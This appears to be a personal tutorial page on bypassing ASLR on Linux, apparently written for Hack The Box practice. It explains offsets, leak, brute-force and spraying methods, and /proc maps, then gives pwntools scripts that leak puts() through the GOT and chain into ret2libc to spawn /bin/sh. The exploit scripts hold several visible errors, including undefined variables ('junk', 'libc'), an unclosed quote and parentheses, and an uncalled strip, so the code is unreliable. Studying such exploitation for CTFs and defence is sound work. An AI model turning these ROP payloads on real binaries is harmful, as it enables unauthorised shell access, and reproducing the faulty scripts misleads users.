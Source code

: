 # ASLR Bypass

Address Space Layout Randomisation (ASLR) is a feature that causes memory addresses of functions and instructions to be randomised. Each time we run a binary, all of the addresses would change and never be the same.

In earlier Buffer Overflows, we examined how controlling the EIP can lead to RCE, with or without NX protection. However, with ASLR enabled, even if we can control the EIP, we cannot 'jump' anywhere because we wouldn't know where to jump to with ASLR enabled.

## Concepts

In order to bypass ASLR, we need to understand how it functions, as well as how functions are called. When we run a binary, the libraries and functions of that binary are loaded into virtual memory.

<figure><img src="../.gitbook/assets/image (5) (1) (2).png" alt=""><figcaption></figcaption></figure>

With ASLR enabled, the library would be **loaded at different places in memory** each time. With the main library being loaded differently, all functions called in the library are affected and have different locations in memory.

Functions are called based on **offsets**. For example, if the libc library is loaded at `0x10000000`, and the offset for the `printf()` function is `0x00001000`, then when a program is run and `printf()` is called, it is mapped at `0x10001000`. \
Generally, base address (where library is called) + offset = memory location of function.

The vulnerability arises because when ASLR is enabled, **the offset does not change and is constant**. So, if we are able to find the base address where the library is called, we can use the constant offsets to load certain functions. ****&#x20;

### **Methods**

To bypass ASLR, there are a few methods possible

* Information Leak Vulnerability
  * Can be an LFI or anything else that lets us **read memory locations on the machine**.&#x20;
  * Memory disclosure vulnerabilities also can work.
* Brute Forcing
  * Perhaps the range of addresses where the library is loaded is rather small. This indicates that the base address could be brute forced and a simple for loop can cover all of it rather quickly.&#x20;
  * Done in the October box from HTB.
* Memory Spraying
  * Involves using an amplification gadget, which is a piece of code that takes an existing chunk of data and copies it, allowing the attacker to spray a large amount of memory by only sending a relatively small number of bytes.
  * Heap spraying is not as feasible anymore (but still possible on iOS devices).

### Proc Maps

On Linux machines, we can inspect the mappings of a process given its pid through `procfs`, which is done through reading the file at `/proc/<pid>/maps`. Here's some sample output from the Retired box from HTB (which had an LFI):

```bash
$ cat /proc/407/maps
555aa1164000-555aa1165000 r--p 00000000 08:01 2408                       /usr/bin/activate_license
555aa1165000-555aa1166000 r-xp 00001000 08:01 2408                       /usr/bin/activate_license
555aa1166000-555aa1167000 r--p 00002000 08:01 2408                       /usr/bin/activate_license
555aa1167000-555aa1168000 r--p 00002000 08:01 2408                       /usr/bin/activate_license
555aa1168000-555aa1169000 rw-p 00003000 08:01 2408                       /usr/bin/activate_license
....... <truncated>
7f4888c53000-7f4888c54000 r--p 00000000 08:01 3630                       /usr/lib/x86_64-linux-gnu/ld-2.31.so
7f4888c54000-7f4888c74000 r-xp 00001000 08:01 3630                       /usr/lib/x86_64-linux-gnu/ld-2.31.so
7f4888c74000-7f4888c7c000 r--p 00021000 08:01 3630                       /usr/lib/x86_64-linux-gnu/ld-2.31.so
7f4888c7d000-7f4888c7e000 r--p 00029000 08:01 3630                       /usr/lib/x86_64-linux-gnu/ld-2.31.so
7f4888c7e000-7f4888c7f000 rw-p 0002a000 08:01 3630                       /usr/lib/x86_64-linux-gnu/ld-2.31.so
....... <truncated>
7ffe99226000-7ffe99247000 rw-p 00000000 00:00 0                          [stack]
7ffe9932a000-7ffe9932e000 r--p 00000000 00:00 0                          [vvar]
7ffe9932e000-7ffe99330000 r-xp 00000000 00:00 0                          [vdso]
```

This provides memory addresses for each loaded library as well as the program itself. It also identifes areas of memory that are writable or executable.&#x20;

Now, suppose we do this multiple times, we can find out a few things like:

* How wide is the range of addresses? Can it be brute-forced?&#x20;
* Where is the stack loaded?
* Where is the heap relative to the binary?

In general, reading this (if we are able to) allows us to find out more efficient methods of exploitation.

## Information Leak

Now, suppose we have a leak to abuse. This involves using the PLT and GOT tables within the binary:

* Procedure Linkage Table is used to call external procedures whose address is not known in the time of linking, and is left to be resolved by the dynamic linker at run time.
* Global Offsets Table is similar but is used to resolve addresses.

Since the GOT and PLT are used everywhere in the binary, they must have static memory addresses, and the GOT needs to have write permissions.

The leak is exploited through using the `puts()` function to print the address of the `puts()` function (yes you read it right) in the `libc` file mapped in the GOT table, which would allow us to retrieve the base address of `libc` to call other functions, all at run time.

To do this, we would need 3 things:

1. Address of `pop rdi` to pass the argument to the RDI register, which would be used to puts.&#x20;
2. Address of GOT table where the `puts` in libc is.
3. Address of puts to print the address leaked.

To execute this, we can do the following commands:

```bash
ROPgadget --binary <binaryname> > gadgets.txt
cat gadgets.txt | grep "pop rdi"

objdump -D <binary> | grep puts
objdump -D <binary> | grep main
```

This would print the addresses we need for the script below:

```python
from pwn import *
p = process('./binary')
context(os='linux', arch='amd64)

offset = "A" * 300 # change number
pop_rdi = p64(<pop_rdi addr>)
got_put = p64(<puts@GLIBC addr>)
plt_put = p64(<puts@plt addr>)
plt_main = p64(<main addr>

payload = junk + pop_rdi + got_put + plt_put + plt_main

p.sendline(payload)
p.recvline() # depends on what we need

leaked_puts = p.recvline().strip.ljust(8,"\x00")
log.success('Leaked puts(): ' + str(leaked_puts))
p.interactive(prompt='')
```

But wait, why do we need the `main()` address? Well, this is because once our process is stopped, the address leaked will be randomised in the next execution, meaning that we cannot end the process and need a way to preserve it.

By using the main address function, we can 'preserve' this address and make the program wait at `main()` for the second stage of our exploit.

The next part of the exploit would be a basic ret2libc or ROP chain, depending on whether NX is enabled or what is possible. For this example, I will be using a simple ret2libc exploit. Since the offsets of the functions needed for this are **constant**, all we need to do now is use the address of `puts` to dump the function of the library.&#x20;

First we need to find the address of the `puts()` function within the `libc` file, as well as the `system()`, `/bin/sh`, and `exit()` for our ret2libc.

```bash
readelf -s /usr/lib/x86_64-linux-gnu/libc.so.6 |grep puts
readelf -s /usr/lib/x86_64-linux-gnu/libc.so.6 |grep system
strings -a -t x /usr/lib/x86_64-linux-gnu/libc.so.6 |grep /bin/sh
```

From the script below, we would be able to find the base address of where `libc` is loaded, and because we never technically exited the program, **the address is not randomised again**. (remember that we called `main()` again in the first payload)

```python
from pwn import *
p = process('./binary')
context(os='linux', arch='amd64')

offset = "A" * 300 # change number
pop_rdi = p64(<pop_rdi addr>)
got_put = p64(<puts@GLIBC addr>)
plt_put = p64(<puts@plt addr>)
plt_main = p64(<main addr>

payload = junk + pop_rdi + got_put + plt_put + plt_main

p.sendline(payload)
p.recvline() # depends on what we need

leaked_puts = p.recvline().strip.ljust(8,"\x00")
log.success('Leaked puts(): ' + str(leaked_puts))

leaked_puts = u64(leaked_puts)

libc_put = <libc puts addr>
offset = leaked_puts - libc # this gives us the base libc address

log.info('glibc offset: %x', offset)

libc_system = <system addr>
libc_binsh = </bin/sh addr>

sys = p64(offset + libc_system)
sh = p64(offset + libc_binsh)

payload2 = junk + pop_rdi + sh + sys
p.sendline(payload2)
p.recvline()

p.interactive(prompt="")
```

And this is how we bypass ASLR using an Information Leak.

## Memory Spraying

To bypass ASLR without the above method is a lot more difficult. This would require memory spraying, which lets us map contiguous memory of a given size, on a given range of addresses.&#x20;

This abuses a **memory leak, a bug of which memory is never 'freed'** and triggering it multiple times until the desired amount of memory has been leaked. Also, it uses an **amplification gadget** which is a piece of code that takes an existing chunk of data and copies it, allowing the attacker to spray a large memory range by only sending a small number of bytes.&#x20;

For now, I don't have enough knowledge on this to write a proper explanation, so here's a good resource I used to (sort of) understand what's going on.

{% embed url="https://github.com/nick0ve/how-to-bypass-aslr-on-linux-x86_64" %}

